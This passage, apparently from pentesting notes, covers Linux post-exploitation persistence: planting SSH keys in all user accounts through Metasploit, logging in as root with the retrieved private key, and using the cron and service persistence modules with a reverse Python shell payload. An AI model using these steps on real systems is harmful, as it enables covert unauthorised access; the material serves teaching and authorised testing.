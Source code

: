 After exploit it, will be added public key in all user accounts home directory and save in a txt file and see it with path visibile by`loot` command. After that, we can terminate all sessions `exit -y,` opening txt file that contains id rsa, and copy private key in a new file:

```bash
vim ssh_key #copy here and save contents of ssh private key
chmod 0400 ssh_key
ssh -i ssh_key root@IP #user@IP
```

We're in without creating a new user, cronjob or other.

In alternatively, we can use MSF module to take linux persistence using cron jobs:

```bash
search platform:linux persistence
use exploit/linux/local/cron_persistence #it's not the best solution, because update of cronjobs is easy to detect
show options
sessions #check if there're not conflict with others sessions LHOST ports (under connection)
```

If it doesn't work or in alternatively, we can use service\_persistence module (it creates a service on the box, and mark it for autorestart):

```bash
search platform:linux persistence
use exploit/linux/local/service_persistence
set payload cmd/unix/reverse_python #in alternative bind or reverse netcat
#check if there're not conflict with others sessions LHOST ports (under connection)
```

